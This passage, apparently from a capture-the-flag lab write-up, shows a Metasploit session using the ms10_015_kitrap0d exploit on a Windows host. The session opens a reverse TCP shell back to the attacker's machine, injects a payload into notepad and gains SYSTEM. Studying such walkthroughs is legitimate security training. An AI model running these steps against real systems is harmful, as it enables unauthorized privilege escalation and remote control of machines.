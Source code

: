 ```shell-session

Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338

LPORT => 1338


msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3

SESSION => 3


msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.5:1338 
[*] Launching notepad to host the exploit...
[+] Process 3552 launched.
[*] Reflectively injecting the exploit DLL into 3552...
[*] Injecting exploit into 3552 ...
[*] Exploit injected. Injecting payload into 3552...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:1338 -> 10.10.10.5:49162) at 2020-08-28 17:15:56 +0000


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```